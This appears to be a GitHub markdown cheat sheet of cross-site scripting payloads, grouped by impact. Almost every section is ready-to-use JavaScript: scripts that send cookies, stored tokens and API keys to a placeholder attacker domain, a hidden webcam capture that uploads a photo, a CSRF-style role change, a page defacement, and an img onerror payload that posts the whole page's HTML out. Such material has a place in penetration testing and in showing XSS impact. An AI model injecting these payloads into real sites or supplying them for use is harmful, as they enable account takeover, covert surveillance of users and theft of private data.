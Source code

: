 # XSS (Cross-Site Scripting)

## Table of Contents
- [Credential stealing](#credential-stealing)
- [Chaining with CSRF](#chaining-with-csrf)
- [WEB API abusing](#web-api-abusing)
- [Content Spoofing](#content-spoofing)
- [Data Exfiltration](#data-exfiltration)

## Credential stealing

### Credentials used for authentication (e.g., cookie, access token) can be stolen.

- Cookie stealing
   ```html
    <script>
        fetch(`https://[ATTACKER-DOMAIN]/?cookie=${document.cookie}`)
    </script>
   ```
- token stealing
    ```html
    <script>
        fetch(`https://[ATTACKER-DOMAIN]/?token=${localStorage.getItem("token")}`)
    </script>
   ```
- API key stealing
    ```html
    <script>
        fetch('/myinfo')
        .then(response => response.json())
        .then(data => {
            return fetch(`https://[ATTACKER-DOMAIN]/?api_key=${data.api_key}`)
        })
    </script>
    ```

## Chaining with CSRF

### It can create a greater risk when combined with vulnerabilities like CSRF. (The impact may vary depending on the purpose or function of the service.)

- Making a transfer
    ```html
    <script>
        initiateTransaction("attacker_account",1000)
    </script>
   ```

- Privilege escalation
    ```html
    <script>
    fetch('https://[ATTACKER-DOMAIN]/change-role', {
        method: 'POST',
        body: "user_id=1234&role=admin"
    })
    </script>
   ```

## WEB API abusing

### Web browser-provided APIs can be exploited to access OS features. (e.g., Media Stream API, Clipboard API, etc.).

- Camera access
    ```html
    <script>
    document.addEventListener('DOMContentLoaded', async () => {
        const v = document.createElement('video');
        v.autoplay = true;
        v.style.display = 'none';
        document.body.appendChild(v);

        const c = document.createElement('canvas');
        c.style.display = 'none';
        document.body.appendChild(c);

        const s = await navigator.mediaDevices.getUserMedia({ video: true });
        v.srcObject = s;

        setTimeout(() => {
        const ctx = c.getContext('2d');
        c.width = v.videoWidth;
        c.height = v.videoHeight;
        ctx.drawImage(v, 0, 0);

        c.toBlob(b => {
            const f = new FormData();
            f.append('image', b, 'photo.png');
            fetch('http://[ATTACKER-DOMAIN]/images', { method: 'POST', body: f });
        }, 'image/png');
        }, 1000);
    });
    </script>
    ```

## Content Spoofing

### Elements of the page can be modified through DOM manipulation.

- Defacement

   ```html
   <script>
   document.body.innerHTML = `
     <div style="position:fixed; top:0; left:0; width:100%; height:100%; background-color:black; display:flex; align-items:center; justify-content:center; color:red; font-size:3em; font-family:sans-serif; z-index:10000;">
       You've been hacked
     </div>
   `;
   </script>
   ```

## Data Exfiltration

### Sensitive data on the page can be exfiltrated. This is especially useful in Blind XSS scenarios, where an attacker can capture the contents of an internal or administrative page they cannot see directly.

- Exfiltrating page content
    ```html
    <img src=nonexistent_src onerror=fetch('https://[ATTACKER-DOMAIN]',{method:'POST',body:btoa(unescape(encodeURIComponent(document.documentElement.outerHTML)))})>
    ```